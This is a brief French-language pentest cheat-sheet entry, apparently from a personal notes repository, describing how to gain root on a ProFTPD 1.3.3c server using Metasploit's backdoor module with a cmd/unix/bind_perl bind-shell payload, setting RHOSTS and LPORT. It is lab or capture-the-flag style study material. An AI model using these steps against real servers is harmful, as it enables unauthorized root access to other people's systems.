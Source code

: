 # FTP

## ProFTPD

### ProFTPD 1.3.3c - CVE-2010-4221.

On y accède via MSFCONSOLE
msfconsole -q

On cherche l'exploit
search ProFTPD 1.3.3c

Puis on choisit la UNIX/FTP/PROFTPD_133c_backdoor

On SET le PAYLOADS avec le cmd/unix/bind_perl
On ajoute le RHOSTS le LPORT

Puis on run l'exploit qui nous passe directement en Root sur la machine